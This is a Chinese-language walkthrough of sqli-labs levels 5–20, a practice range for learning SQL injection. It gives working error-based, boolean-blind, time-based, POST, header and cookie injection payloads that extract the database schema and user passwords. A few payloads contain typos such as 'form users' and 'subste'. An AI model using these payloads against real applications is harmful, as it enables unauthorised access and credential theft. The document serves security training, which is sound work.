

Less5 报错注入
首先直接登录，发现本关不显示回显，所以需要使用报错注入
1.判断注入点类型
一个单引号报错，两个单引号正常，说明为单引号闭合
2.获取当前数据库名
?id=1’ and(select extractvalue(1,concat(0x7e,(select database()),0x7e)))–+
3.获取数据库内所有表名
?id=1’ and(select extractvalue(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x7e)))–+
4.查询用户表所有列
?id=1’ and(select extractvalue(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name=”users”),0x7e)))–+
5.查询用户数据
?id=1’ and(select extractvalue(1,concat(0x7e,(select group_concat(id,0x7e,username,0x7e,password)from users),0x7e)))–+
添加where条件，筛选特定用户数据
?id=1’ and(select extractvalue(1,concat(0x7e,(select group_concat(id,0x7e,username,0x7e,password)from users where username not in(‘Dumb’)),0x7e)))–+
Less6 报错注入
本关和上一关一样不显示回显，所以使用报错注入
1.判断注入点类型
单引号报错，双引号正常，说明为双引号闭合
后续步骤与上面关卡相同
Less7 布尔盲注
此关不显示回显，无法使用联合注入和报错注入，故使用布尔盲注
1.判断注入点类型
为’))的形式
2.判断数据库长度（二分法）
?id=1’)) and (length (database()))=8–+
测试出长度为8
3.获得数据库名【(database(),n,1)n为位数，同样使用二分法】
?id=1’)) and ascii(substr(database(),1,1))>100 –+
对应ASCII码中的“s”
判断第二位数据库名
?id=1’)) and ascii(substr(database(),2,1))>100–+
对应ASCII码中的“e”
后续如上，最后得出数据库名为“Security”
4.获取数据库表的个数 (二分法)
?id=1’)) and (select count(*)from information_schema.tables where table_schema=database())>1–+
判断有4个表
5.获取表名长度 （使用limit来限制表的个数，每次读取一个表）
?id=1’)) and (select length(table_name)from information_schema.tables where table_schema=database() limit 0,1)>1–+
测试出长度为6
6.获取表名（用limit显示表的个数和字符的个数）
?id=1’)) and ascii((substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))>100–+
对应ASCII码中的“e”
后续如上，最后得出第一张表名为“email”
其余三张表也用同样的方式
由于靶场打不开，后面暂时没有图片
7.获取列的个数
?id=1’)) and (select count(*)from information_schema.columns where table_name=”users”)>1–+
8.获取列名长度
?id=1’)) and (select length(column_name)from information_schema.columns where table_name=”users” limit 0,1)>1–+
9.获取列名
?id=1’)) and ascii((substr((select column_name from information_schema.columns where table_name=”users”limit 0,1),1,1)))>100–+
10.获得数据
?id=1’)) and ascii(substr((select group_concat(username,0x7e,password) form users limit 0,1)1,1))>100–+
Less8 布尔盲注
此关不显示回显，无法使用联合注入和报错注入，故使用布尔盲注
1.判断注入点类型
首先添加一个单引号发现报错，注释后正确，判断为单引号闭合
后续步骤与上面关卡相同
Less9 时间盲注（此关使用burp爆破，也可以手工注入）
此关不论输入什么都回显正常，无法判断输入语句是否在服务器执行
1.判断注入点类型
?id=1’ and sleep(5) –+
发现明显延迟，说明为单引号闭合型注入，接下来进行爆破流程
2.获取数据库名长度 （sleep（5）代表，如果前一语句符合条件，则等待5秒）
?id=1’ and if((length(database())>5),sleep(5),1)–+
说明数据库名长度大于5, 接下来就是不断缩小范围,最后确定数据库名长度为8
3.获取数据库名
?id=1’ and if((substr(database(),1,1)=”a”),sleep(5),1)–+
从burp中抓包后，发送到intruder
,1,1)】即可
4.获取数据库表名
?id=1’ and if((substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)=”a”),sleep(5),1)–+
其余步骤与上一步相同
5.获取表中列名
?id=1’ and if((substr((select column_name from information_schema.columns where table_name=”users” limit 0,1),1,1)=”a”),sleep(5),1)–+
其余步骤与上一步相同
6.获取数据
?id=1’ and if((subste((select group_concat(username,0x7e,password) from users limit 0,1),1,1)=”a”),sleep(5),1)–+
其余步骤与上一步相同
Less10
1.判断注入点类型
?id=1” and sleep(5) –+

发现明显延迟，说明为双引号闭合型注入
爆破流程与上一关相同
Less11
1.正常登录
首先使用admin登录 （也可以为其他字符串）
2.抓取POST包并判断注入点类型
添加单引号发现报错，说明为单引号闭合,可以使用报错注入
3.爆破数据库
由于报错注入与前面关卡所用方法完全一致，所以这里我只进行一个举例
获取当前数据库名
uname=admin’and(select extractvalue(1,concat(0x7e,(select database()),0x7e)))–+&passwd=admin&submit=Submit
后续爆破数据库内表，列，用户数据步骤可参照Less5、6
Less12 -与less11相似
1.正常登录
使用admin登录（也可以为其他字符串）
2.抓取POST包并判断注入点类型
添加双引号发现报错，说明为单引号闭合,可以使用报错注入
样例：获取当前数据库名
uname=admin” and(select extractvalue(1,concat(0x7e,(select database()),0x7e)))–+&passwd=admin&submit=Submit
后续步骤与上一关相同
Less13
1.正常登录
使用admin登录（也可以为其他字符串）
2.抓取POST包并判断注入点类型
添加单双引号都发现报错，继续测试发现为’)闭合,可以使用报错注入
样例：获取当前数据库名
uname=admin’) and(select extractvalue(1,concat(0x7e,(select database()),0x7e)))–+&passwd=admin&submit=Submit
后续步骤与上一关相同
Less14
根据我的测试，注入点与Less12相同，均为双引号，后续报错注入流程也完全一致，暂未发现不同之处，如果后续课程中有发现会进行补充修改
Less15
1.正常登录
使用admin登录（也可以为其他字符串）
2.抓取POST包并判断注入点类型
测试注入点，发现为单引号闭合
按正常流程爆破发现没有回显
使用延迟注入，发现有明显延迟
可以采用用手工延迟注入或者burp爆破
步骤与Less7几乎相同，这里只放样例了
3.判断数据库名长度
uname=admin’ and if(length(database())=8,sleep(5),1)–+&passwd=admin&submit=Submit
4.获取数据库名
uname=admin’ and if((substr(database(),1,1)=”s”),sleep(5),1)–+ &passwd=admin&submit=Submit
Less16
1.正常登录
使用admin登录（也可以为其他字符串）
2.抓取POST包并判断注入点类型
测试注入点，发现为双引号加括号”)的形式闭合
后续步骤与上一关相同
Less17
1.正常登录
使用admin登录（也可以为其他字符串）
2.抓取POST包并判断注入点类型
正常进行注入点判断
观察页面发现此关卡注入可能不在uname上
尝试在password进行注入
成功报错并有回显
可以进行报错注入，后续步骤与上面关卡相同，注入点改为password
样例：获取当前数据库名
uname=admin&passwd=admin’ and(select extractvalue(1,concat(0x7e,(select database()),0x7e)))–+&submit=Submit
Less18
1.正常登录
使用admin登录（也可以为其他字符串）
2.抓取POST包并判断注入点类型
正常登录，发现页面有 User Agent回显
猜测注入点在User Agent
3.尝试在User Agent获取当前数据库名
‘and(select extractvalue(1,concat(0x7e,(select database()),0x7e)))and’
经过测试，语句前后需要有‘and….and’闭合，改为’or….or’也可以正常回显，原因暂时未知，网上也没查到相关解释
后续步骤就是正常的报错注入流程
Less19
1.正常登录
使用admin登录（也可以为其他字符串）
2.抓取POST包并判断注入点类型
正常登录，发现页面有Referer回显
猜测注入点在Referer
3.尝试在Referer获取当前数据库名
‘and(select extractvalue(1,concat(0x7e,(select database()),0x7e)))and’
正常回显,与上一关完全一致，注入点从User Agent改为Referer
Less20
1.正常登录
使用admin登录（也可以为其他字符串）
2.抓取POST包并判断注入点类型
正常登录，发现页面有Cookie回显
使用burp抓包，这次需要抓GET包
观察到cookie=admin，判断为cookie注入
在cookie=admin处添加单引号，报错
3.尝试在Cookie获取当前数据库名
uname=admin’and(select extractvalue(1,concat(0x7e,(select database()),0x7e)))–+
还可使用联合查询
uname=-admin’union select 1,database(),3–+
注意联合查询中，需要查询显示行数，admin前需要添加-
后续报错注入和联合查询步骤和以前的关卡一致